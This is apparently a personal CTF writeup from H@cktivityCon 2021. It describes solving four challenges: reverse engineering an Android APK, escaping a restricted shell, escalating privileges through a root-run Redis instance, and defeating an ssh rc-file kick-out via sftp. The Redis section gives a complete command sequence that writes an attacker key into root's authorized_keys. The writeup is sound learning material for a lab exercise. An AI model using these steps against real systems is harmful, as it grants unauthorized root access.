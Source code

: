 +++
title = "H@cktivityCon 2021 CTF Writeup"
date = "2021-09-18"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["CTF"]
keywords = ["", ""]
description = ""
showFullContent = false
toc = true
images = ["/img/hacktivitycon-2021/hacktivity.jpeg"]
+++

<!--more-->
{{< image src="/img/hacktivitycon-2021/hacktivity.jpeg" alt="" position="center" style="border-radius: 8px;" >}}

## Introduction

H@cktivityCon 2021 was happening over the weekend and I participated in their ctf with team [@fr334aks](https://twitter.com/fr334aks). We managed position 49 out of 2527 teams.
This writeup is of the challenges I managed to solve.

## Challenges

### 1. Mobile: To Do

Challenge Description:

{{< image src="/img/hacktivitycon-2021/to-do-1.png" alt="" position="center" style="border-radius: 8px;" >}}

We are provided with an apk file. First thing I typically do with apk files is open them with jadx-gui. 

```sh
jadx-gui todo.apk
```

Here I first look at the AndroidManifest.xml to see the application entry point. 

{{< image src="/img/hacktivitycon-2021/to-do-2.png" alt="" position="center" style="border-radius: 8px;" >}}

For this app it's LoginActivity. It checks if the input provided is equal to `testtest` and if true it goes on to load MainActivity.

{{< image src="/img/hacktivitycon-2021/to-do-3.png" alt="" position="center" style="border-radius: 8px;" >}}

When we install the application and supply the password as `testtest` we get the flag.

{{< image src="/img/hacktivitycon-2021/to-do-5.png" alt="" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/hacktivitycon-2021/to-do-6.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately I couldn't copy it out and typing it would have been a pain. Back on the MainActivity we see it loads MyDatabase.

{{< image src="/img/hacktivitycon-2021/to-do-4.png" alt="" position="center" style="border-radius: 8px;" >}}

When we look at MyDatabase, it loads an sqlite database `todos.db`. A lot of the times sqlitedb database in android apps are stored within
the apk.

{{< image src="/img/hacktivitycon-2021/to-do-7.png" alt="" position="center" style="border-radius: 8px;" >}}

Extracting the apk using apktool I was able to access the sqlitedb and extract the flag.

{{< image src="/img/hacktivitycon-2021/to-do-8.png" alt="" position="center" style="border-radius: 8px;" >}}

### 2. Miscellaneous: Shelle 

Challenge Description:

{{< image src="/img/hacktivitycon-2021/shelle-1.png" alt="" position="center" style="border-radius: 8px;" >}}

When we connect to the challenge, we get access to a restricted shell with only a few commands we can run.

{{< image src="/img/hacktivitycon-2021/shelle-2.png" alt="" position="center" style="border-radius: 8px;" >}}

When we read the assignment, we are told the flag is in the /opt directory.

{{< image src="/img/hacktivitycon-2021/shelle-3.png" alt="" position="center" style="border-radius: 8px;" >}}

Unfortunately we can't access it.

{{< image src="/img/hacktivitycon-2021/shelle-4.png" alt="" position="center" style="border-radius: 8px;" >}}

Next I tried to see if we can access any environment variables and see if the `$` character is forbidden as well.
Luckily this works.

{{< image src="/img/hacktivitycon-2021/shelle-5.png" alt="" position="center" style="border-radius: 8px;" >}}

I then ran `set` to list all environment variables. Looking through the list I saw one set to bash.

{{< image src="/img/hacktivitycon-2021/shelle-6.png" alt="" position="center" style="border-radius: 8px;" >}}

I was able to use it to escape the restricted shell and read the flag.

{{< image src="/img/hacktivitycon-2021/shelle-7.png" alt="" position="center" style="border-radius: 8px;" >}}

### 3. Miscellaneous: Redlike

Challenge Description:

{{< image src="/img/hacktivitycon-2021/redlike-1.png" alt="" position="center" style="border-radius: 8px;" >}}

After sshing into the challenge machine, I performed some local enumeration and when checking for running processes
we see redis running locally as root. Clearly this is the privesc path.

{{< image src="/img/hacktivitycon-2021/redlike-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I immediately jumped to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh) and used the below commands to escalate privileges.

```sh
ssh-keygen -f redis

(echo -e "\n\n"; cat redis.pub; echo -e "\n\n") > spaced_key.txt

cat spaced_key.txt | redis-cli -h 127.0.0.1 -x set ssh_key

redis-cli -h 127.0.0.1

config set dir /root/.ssh

config set dbfilename "authorized_keys"

save

chmod 600 redis

ssh -i redis root@127.0.0.1
```

{{< image src="/img/hacktivitycon-2021/redlike-3.png" alt="" position="center" style="border-radius: 8px;" >}}

### 4. Race Car

Challenge Description:

{{< image src="/img/hacktivitycon-2021/racecar-1.png" alt="" position="center" style="border-radius: 8px;" >}}

I enjoyed this one as I was the second to solve it.

When we ssh into the challenge machine, the session is immediately closed when we provide the password.

{{< image src="/img/hacktivitycon-2021/racecar-2.png" alt="" position="center" style="border-radius: 8px;" >}}

I tried different techniques I knew for restricted shell bypass with ssh but none worked. I got an idea to use sftp and 
see what configuration files could be causing this behaviour.

With sftp we are not kicked out and can look at files. Two files seem to be of interest but only `rc` in .ssh has contents.

{{< image src="/img/hacktivitycon-2021/racecar-3.png" alt="" position="center" style="border-radius: 8px;" >}}

The rc file is the one responsible for getting us kicked out. I tried deleting it but that didn't work. However, since we have write 
permissions, I was able to overwrite it by uploading an empty file with the same name.

Once that was done we can ssh and get the flag.

{{< image src="/img/hacktivitycon-2021/racecar-4.png" alt="" position="center" style="border-radius: 8px;" >}}


## Conclusion

Thanks HackerOne, John Hammond and the CTF challenge creators, it was a fun one!
